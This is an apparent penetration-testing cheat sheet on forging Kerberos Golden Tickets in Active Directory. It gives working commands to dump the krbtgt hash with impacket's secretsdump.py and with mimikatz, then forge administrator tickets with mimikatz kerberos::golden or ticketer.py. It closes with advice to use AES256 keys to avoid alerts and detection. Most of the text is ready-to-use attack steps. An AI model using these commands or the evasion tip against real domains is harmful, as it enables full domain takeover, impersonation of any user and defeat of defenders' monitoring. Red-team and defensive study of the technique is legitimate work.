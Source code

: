 - TGTs are encrypted with the `krbtgt`'s key derived from it's password.
- If we get hold of this key, we can forge TGTs for any user subsequently getting access to any service as any user. These tickets are called Golden Tickets.
- This can be done using dumping credential of the domain controller or via [[DCSync]] attack.
- This can also be done by dumping the NTDS.dit file locally.
- Using impacket's secretsdump.py:
```bash
secretsdump.py 'mydomain.local/drdragon@192.168.2.2' -just-dc-user krbtgt
```
- Using mimikatz to get the krbtgt hash and the create TGT
```powershell
lsadump::lsa /patch

kerberos::golden /User:Administrator /domain:<domain-FQDN> /sid:<domain-sid> /krbtgt:<kerberos-key> /id:<id> /groups:<group> /startoffset:0 /endin:600 /renewmax:10080 [/ptt(injects TGT in memory)|/ticket(saves ticket to file)]
```
- To issue TGTs from the keys, impacket's ticketer.py can be used:
```bash
ticketer.py -domain-sid <domainSID> -domain mydomain.local -aes <aesKey> Administrator
# This will create the TGT for the Administrator user and save it in Administrator.ccache
```
- AES256 keys should be used to avoid any alerts or detection.